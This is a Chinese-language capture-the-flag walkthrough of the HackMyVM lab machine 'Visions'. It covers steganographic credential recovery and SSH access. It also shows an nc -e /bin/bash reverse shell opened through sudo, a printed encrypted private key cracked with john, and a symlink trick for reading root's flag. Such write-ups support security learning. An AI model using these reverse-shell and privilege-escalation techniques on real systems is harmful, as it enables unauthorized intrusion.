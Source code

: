 # Visions

2024-11-12 https://hackmyvm.eu/machines/machine.php?vm=Visions

## IP

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

查看 80 web 服务，首页无内容，查看源码发现提示：

```
Only those that can see the invisible can do the imposible.
You have to be able to see what doesnt exist.
Only those that can see the invisible being able to see whats not there.
-alicia
```

在最底部发现白色图片 http://192.168.5.39/white.png 先查看是否有隐写信息，发现 common 中有密码:

```
Comment : pw:ihaveadream
```

使用用户名 alicia 进行 ssh 登陆成功。

发现 4 个可用用户: emma alicia sophia isabella

sudo -l 发现可以以 emma 身份运行 nc，先得到 emma 的 shell：

```
nc -lvnp 8888
sudo -u emma nc -e /bin/bash 192.168.5.3 8888
```

得到 emma 的 shell：

```
emma@visions:~$ cat note.txt
I cant help myself.
```

但是找了一圈也没有找到可以提权到其他 2 个用户的路径，在看看前面那个白色图片，使用 stegsolve 进行查看，在 red plane 0 通道中发现用户名和密码: sophia/seemstobeimpossible 使用这个凭据登陆。

拿到了 user flag：

```
sophia@visions:~$ cat  user.txt
hmvicanseeforever
```

sudo -l 发现命令：

```
sudo /usr/bin/cat /home/isabella/.invisible

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBMekPa3i
1sMQAToGnurcIWAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQDNAxlJldzm
IgVNFXbjg51CS4YEuIxM5gQxjafNJ/rzYw0sOPkT9sL6dYasQcOHX1SYxk5E+qD8QNZQPZ
GfACdWDLwOcI4LLME0BOjARwmrpU4mJXwugX4+RbGICFMgY8ZYtKXEIoF8dwKPVsBdoIwi
lgHyfJD4LwkqfV6mvlau+XRZZBhvlNP10F0SAAZqBaA9y7hRWJO/XcCZC6HzJKzloAL2Xw
GvAMzgtPH/wj06NoOFjmVGMfmmHzCwgc+fLOeXXYzFeRNPH3cVExc+BnB8Ju6CFa6n7VBV
HLCYJ3CcgKnxv6OwVtkoDi0UEFUOefELQV7fZ+g1sZt/+2XPsmcZAAAD0E8RIvVF4XlKJq
INtHdJ5QJZCuq2ufynbPNiHF53PqSlmC//OkQZMWgJ5DcbzMJ92IqxRgjilZZUOUbE/SFI
PViwmpRWIGAhlyoPXyV513ukhb4UngYlgCP9qC4Rbn+Tp9Fv7lnAoD0DsmwITM2e/Z65AD
/i/BqrJ6scNEN0q+qNr3zOVljMZx+qy8cbuDn9Tbq2/N+mcoEysfjfOaoJIgVJnLx1XE6r
+Y9UcRyPAYs+5TB1Nz/fpnBo7vesOu5XLUqCBCphFGmdMCdSGYZAweitjQ+Mq36hQmCtSs
Dwcbjg8vy5LJ+mtJXA7QhqgAfXWnLLny4NeCztUnTG0NLjbLR6M5e+HSsi2EqDYoGNpWld
l4YzVPQoFMIaUJOGTc+VfkMWbQhzpiu66/Du8dwhC+p6QSmwhV/M70eWaH2ZVjK3MThg9K
CVugFsLxioqlp/rnE1oq7apTBX6FOjwz0ne+ytTVOQrHuPTs2QL4PlCvhPRoIuqydleFs4
rdtzE6b46PexXlupewywiO5AVzbfSRAlCYwiwV42xGpYsNcKhdUY+Q9d9i9yudjIFoicrA
MG9hxr7/DJqEY311kTglDEHqQB3faErYsYPiOL9TTZWnPLZhClrPbiWST5tmMWxgNE/AKY
R7mKGDBOMFPlBAjGuKqR6zk5DEc3RzJnvGjUlaT3zzdVmxD8SpWtjzS6xHaSw/WOvB0lsg
Dhf+Gc7OWyHm2qk+OMK9t0/lbIDfn3su0EHwbPjYTT3xk7CtG4AwiSqPve1t9bOdzD9w9r
TM7am/2i/BV1uv28823pCuYZmNG7hu5InzNC/3iTROraE31Qqe3JCNwxVDcHqb8s6gTN+J
q6OyZdvNNiVQUo1l7hNUlg4he4q1kTwoyAATa0hPKVxEFEISRtaQln5Ni8V+fos8GTqgAr
HH2LpFa4qZKTtUEU0f54ixjFL7Lkz6owbUG7Cy+LuGDI1aKJRGCZwd5LkStcF/MAO3pulc
MsHiYwmXT3lNHhkAd1h05N2yBzXaH+M3sX6IpNtq+gi+9F443Enk7FBRFLzxdJ+UT40f6E
+gyA2nBGygNhvQHXcu36A8BoE+IF7YVpdfDmYJffbTujtBUj2vrdsqVvtGUxf0vj9/Sv+J
HN9Yk2giXN8VX7qhcyLzUktmdfgd6JNAx+/P7Kh3HV5oWk1Da+VJS+wtCg/oEVSVyrEOpe
skV8zcwd+ErNODEHTUbD/nDARX8GeV158RMtRdZ5CJZSFjBz2oPDPDVpZMFNhENAAwPnrJ
KD/C2J6CKylbopifizfpEkmVqJRms=
-----END OPENSSH PRIVATE KEY-----
```

是 rsa 私钥，使用此私钥登陆 isabella 用户，有密钥，使用 john 进行爆破，密码是 invisible

isabella 的 sudo -l 权限没什么用：

```
(emma) NOPASSWD: /usr/bin/man
```

回到前面的 sudo cat 这里能以 root 用户读取文件，可以尝试将 /root/root.txt 文件 软连接到 /home/isabella/.invisible 上，这里不需要其他权限操作，只要文件所有者就可以，这时就能读取 root flag 了：

```
isabella@visions:~$ ln -sf /root/root.txt /home/isabella/.invisible
```

最终得到 root flag：

```
sophia@visions:/home/isabella$ sudo /usr/bin/cat /home/isabella/.invisible
hmvitspossible
```
